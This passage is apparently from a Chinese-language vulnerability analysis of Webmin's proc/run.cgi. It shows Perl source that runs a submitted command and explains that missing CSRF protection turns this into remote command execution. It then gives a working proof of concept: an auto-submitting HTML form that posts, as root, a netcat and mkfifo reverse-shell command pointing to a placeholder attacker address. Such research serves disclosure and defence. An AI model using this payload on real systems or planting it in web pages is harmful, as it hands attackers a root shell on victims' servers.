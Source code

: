 ```bash
        &open_execute_command(PROC, "($cmd)", 0);
        print PROC $in{'input'};
        close(PROC);
        exit;
        }
    &redirect("index_tree.cgi");
    }
else {
    # run and display output..
    &ui_print_unbuffered_header(undef, $text{'run_title'}, "");
    print "<p>\n";
    print &text('run_output', "<tt>".&html_escape($in{'cmd'})."</tt>"),"<p>\n";
    print "<pre>";
    $got = &safe_process_exec_logged($cmd, 0, 0,
                     STDOUT, $in{'input'}, 1);
    if (!$got) { print "<i>$text{'run_none'}</i>\n"; }
    print "</pre>\n";
    &ui_print_footer("", $text{'index'});
    }
&webmin_log("run", undef, undef, \%in);

```

通过分析源码我们得知代码没有针对CSRF的保护措施，因此我们只需很简单的CSRF构造即可触发该漏洞，并且由于该漏洞触发点是run.cgi文件，我们可以直接通过CSRF构建RCE（远程命令执行），这是非常理想的漏洞利用场景。

#### 漏洞利用

接下来我们通过构造PoC，尝试利用这个漏洞。

首先我们来构造一个HTML文件，**这个HTML的核心目标是进行form表单的自动提交**，源码如下：

```plain
<html>
        <head>
            <meta name="referrer" content="never">
        </head>
  <body>
    <form action="http://your_mituan_app_address/proc/run.cgi" method="POST">
      <input type="hidden" name="cmd" value="mkfifo /tmp/378; nc your_ip your_port 0</tmp/378 | /bin/sh >/tmp/378 2>&1; rm /tmp/378" />
      <input type="hidden" name="mode" value="0" />
      <input type="hidden" name="user" value="root" />
      <input type="hidden" name="input" value="" />
      <input type="hidden" name="undefined" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>

</html>

```
